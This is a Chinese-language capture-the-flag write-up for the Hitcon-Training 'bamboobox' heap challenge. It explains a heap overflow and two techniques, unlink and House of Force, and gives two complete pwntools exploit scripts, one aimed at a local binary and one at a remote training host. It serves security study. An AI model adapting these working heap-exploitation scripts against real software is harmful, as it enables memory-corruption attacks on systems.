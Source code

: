 ```yaml
---
title: bamboobox
categories:
- Hitcon-Training
---
```

# bamboobox

## 前言

渗透测试真是恼人，WEB好难，被360吊打，还是回来继续学PWN，争取五一刷完Hitcon-Training，这个题不是很难，但是有两种方法可以解，自己做的时候只想到一种，这里记录一下，因为第二种简单太多了。

## 程序逻辑

程序主要有5个功能，Show、Add、Change、Remove和Exit，其中main退出的时候会调用开始malloc的chunk的goodbye_message函数，初步思路是覆盖这个chunk的内容为magic_addr，退出即可

![main](./1.jpg)

Show函数可以用来泄露地址

![show](./2.jpg)

![add](./3.jpg)

![remove](4.jpg)

Change函数里有堆溢出

![change](5.jpg)

## 漏洞利用

### method1

第一种方法是Unlink，先分配3个堆块，构造一个small chunk,chunk的结构如下:
prev_size->0  
size->0x20  
fd:p-0x18  
bk:p-0x10  
prev_size->0x20(绕过next_chunk的size检查)
nextchunk_prev_size->0x30(定位到fake chunk)
next_chunk_size->size(末尾为0,表明为空闲块)

### method2

第二个方法是House of Force，在wiki里学过，思路是先分配一个chunk，溢出到top_chunk，改为
prev_size:0
size:-1
之后Malloc(-distance)，distance是top_chunk到第一个chunk的距离，之后再分配chunk就会使用第一个函数所在的chunk，造成覆盖

## exp.py

### unlink.py
```py
#coding=utf-8
from time import sleep
from pwn import *
debug = 0
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
p = process('./bamboobox')
#elf = ELF('./bamboobox')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
if debug:
    gdb.attach(p)

def AddItem(size,content):
    p.recvuntil('Your choice:')
    p.sendline('2')
    p.recvuntil('Please enter the length of item name:')
    p.sendline(str(size))
    p.recvuntil('Please enter the name of item:')
    p.send(content)

def RemoveItem(index):
    p.recvuntil('Your choice:')
    p.sendline('4')
    p.recvuntil('Please enter the index of item:')
    p.sendline(str(index))

def ShowItem():
    p.recvuntil('Your choice:')
    p.sendline('1')

def ChangeItem(index,new_len,content):
    p.recvuntil('Your choice:')
    p.sendline('3')
    p.recvuntil('Please enter the index of item:')
    p.sendline(str(index))
    p.recvuntil('Please enter the length of item name:')
    p.sendline(str(new_len))
    p.recvuntil('Please enter the new name of the item:')
    p.send(content)

def Exit():
    p.recvuntil('Your choice:')
    p.sendline('5')


def exp():
    magic_addr = 0x400d49
    AddItem(0x100,'a'*7+'\n')#idx 0
    AddItem(0x30,'b'*7+'\n')#idx 1
    AddItem(0x80,'c'*7+'\n')#idx 2
    AddItem(0x10,'d'*7+'\n')
    #overflow
    item_list = 0x6020c0
    fd = (item_list+0x18) - 24
    bk = (item_list+0x18) - 16
    payload = p64(0x0)+p64(0x20)+p64(fd)+p64(bk)+p64(0x20)
    payload += (0x30-len(payload)) * 'a'
    payload += p64(0x30)+p64(0x90)
    ChangeItem(1,len(payload),payload)
    RemoveItem(2)
    ChangeItem(1,0x10,'x'*8+p64(item_list+0x38))
    ShowItem()
    p.recvuntil('0 : ')
    heap_base = u64(p.recv(3).ljust(8,'\x00')) - 0x210
    log.success('heap base => ' + hex(heap_base))
    ChangeItem(1,0x20,p64(0x20)+p64(heap_base+0x18))
    ChangeItem(0,0x10,p64(magic_addr))
    Exit()
    p.interactive()

exp()
```

### house-of-force.py

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwnpwnpwn import *
from pwn import *

host = "training.pwnable.tw"
port = 11011

r = remote(host,port)

def additem(length,name):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)

def modify(idx,length,name):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)

def remove(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))

def show():
    r.recvuntil(":")
    r.sendline("1")

magic = 0x400d49
additem(0x60,"ddaa")
modify(0,0x70,"a"*0x60 + p64(0) + p64(0xffffffffffffffff))
additem(-160,"dada")
additem(0x20,p64(magic)*2)
r.interactive()

```
